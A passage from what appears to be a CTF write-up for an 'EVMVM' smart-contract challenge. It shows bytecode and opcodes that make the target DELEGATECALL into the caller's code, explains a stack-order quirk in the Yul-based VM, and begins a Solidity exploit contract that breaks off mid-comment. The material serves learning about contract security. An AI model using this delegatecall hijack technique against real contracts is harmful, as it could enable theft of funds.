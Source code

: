 ```
ISZERO
DUP1
SHL
DUP1
SHL
DUP1
MUL
MUL
DELEGATECALL

34343434333415801b801b801b3415801b801b800202f4
```

However, it doesn't work and revert without a reason, I stuck in here for hours

I also notice some weird behavior of the EVMVM, so I just throw the contract into the remix debugger, and discover that this vm implemented in yul behaves differently compare to the actual EVM

This line in yul has 6 function calls to `spop()`

```
delegatecall(spop(), spop(), spop(), spop(), spop(), spop())
```

DELEGATECALL in EVM should pop the first/top item on the stack, and use it as the first argument (gas)

However in the debugger I found that the `spop()` for the last argument will be executed first

So, the first/top item popped from the stack will be passed as the last argument of DELEGATECALL, thats why it's reverting

To make it work, just push the arguments of DELEGATECALL to the stack in the vm in reverse order

### Attacker contract
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.18;

import "./Setup.sol";

contract EVMVM_Exploit {
    // Original bytecode :
    // 34343434333415801b801b801b3415801b801b800202f4
    /*
    CALLVALUE
    CALLVALUE
    CALLVALUE
    CALLVALUE
    CALLER
    CALLVALUE
    ISZERO
    DUP1
    SHL
    DUP1
    SHL
    DUP1
    SHL
    CALLVALUE
    ISZERO
    DUP1
    SHL
    DUP1
    SHL
    DUP1
    MUL
    MUL
```